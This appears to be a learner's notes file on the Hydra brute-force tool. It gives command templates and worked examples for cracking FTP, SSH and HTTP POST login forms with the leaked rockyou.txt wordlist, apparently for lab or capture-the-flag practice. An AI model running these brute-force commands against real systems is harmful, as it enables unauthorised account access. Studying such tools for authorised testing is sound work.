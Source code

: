 # Notes and example commands in hydra

[Hydra docs from kali](https://en.kali.tools/?p=220)

## FTP cracking

- `hydra -l <userlist> -P <passlist> ftp://<ip>`
  - `-l` is for login. For selecting creds for username field. Could pass path to a list of usernames.
  - `-P` is for password. For selecting creds for password field. could pass path to a list of passwords.

## SSH cracking

- `hydra -l <userlist> -P <passlist> <ip> -t <numberOfThreads> ssh`
  - `-l` for login/username
  - `-P` for password
  - `-t` for specifying number of threads to be used
  - `ssh` for specifying crack type

**Examples:**

- `hydra -l molly -P /Passwords/Leaked-Databases/rockyou.txt $(cat ip) ssh -V`

## POST login form

- `hydra -l <username> -P <wordlist> <ip> http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`
  - `-l` for login/username
  - `-P` for password
  - `http-post-form` for form type
  - `username=^USER^` usernames from wordlist will be replaced by `^USER^`
  - `password=^PASS^` passwords from wordlist will be replaced by `^PASS^`
  - `F=incorrect` if `incorrect` appears in the output, it's a failed login attempt.

**Examples:**

- `hydra -l /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt -P /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt $(cat ip) http-post-form "/login:username=^USER^&password=^PASS^:F=invalid" -V`

## Wordlist locations to copy

`/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt`

## FTP hacking

- `hydra -l chris -P ../../wordlists/rockyou.txt ftp://$(cat ip) -V`
